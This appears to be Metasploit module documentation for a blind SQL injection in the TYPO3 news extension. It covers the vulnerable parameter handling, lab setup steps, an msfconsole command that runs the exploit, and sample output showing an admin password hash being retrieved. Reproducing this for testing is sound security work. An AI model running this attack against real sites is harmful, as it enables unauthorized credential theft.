 ## Description

News module extensions v5.3.2 and earlier for TYPO3 contain an SQL injection vulnerability. This module allows an unauthenticated user to exploit the SQL injection vulnerability by generating requests to retrieve the password hash for the admin user of the application. This module has been tested on TYPO3 3.16.0 running news extension 5.0.0.

## Vulnerable Application

In vulnerable versions of the news module for TYPO3, a filter for unsetting user specified values does not account for capitalization of the paramter name. This allows a user to inject values to an SQL query.

To exploit the vulnerability, the module generates requests and sets a value for `order` and `OrderByAllowed`, which gets passed to the SQL query. The requests are constructed to reorder the display of news articles based on a character matching. This allows a blind SQL injection to be performed to retrieve a username and password hash.

## Options

**PATTERN1** and **PATTERN2**

These patterns are used to determine whether the news articles have been reordered. By default, the module will search for headlines and set the first identified headline to PATTERN1 and the second to PATTERN2.

**ID**

The value for query parameter `id` of the page that the news extension is running on.

## Verification Steps

- [ ] Install [Typo3 VM](https://www.turnkeylinux.org/download?file=turnkey-typo3-14.1-jessie-amd64.ova)
- [ ] Launch the VM and configure it
- [ ] SSH to the VM
- [ ]  `cd /var/www/typo3/ && composer require georgringer/news:5.0.0`
- [ ] Login to the web interface
- [ ] Enable the news extension
- [ ] Import [vulnerable page](https://github.com/rapid7/metasploit-framework/files/1015777/T3D__2017-05-20_02-17-z.t3d.zip)
- [ ] Enable page
- [ ] Verify if page is visble to unauthenticated user and note the id
- [ ] `./msfconsole -q -x 'use auxiliary/admin/http/typo3_news_module_sqli; set rhost <rhost>; set id <id>; run'`
- [ ] Username and password hash should have been retrieved

## Scenarios

### News Module 5.0.0 on TYPO3 3.16.0

```
msfdev@simulator:~/git/metasploit-framework$ ./msfconsole -q -x 'use auxiliary/admin/http/typo3_news_module_sqli; set rhost 172.22.222.136; set id 37; run'
rhost => 172.22.222.136
id => 37
[*] Trying to automatically determine Pattern1 and Pattern2...
[*] Pattern1: Article #1, Pattern2: Article #2
[+] Username: admin
[+] Password Hash: $P$Ch4lme3.gje9o.DjMip59baG7b/mIp.
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/typo3_news_module_sqli) > 
```

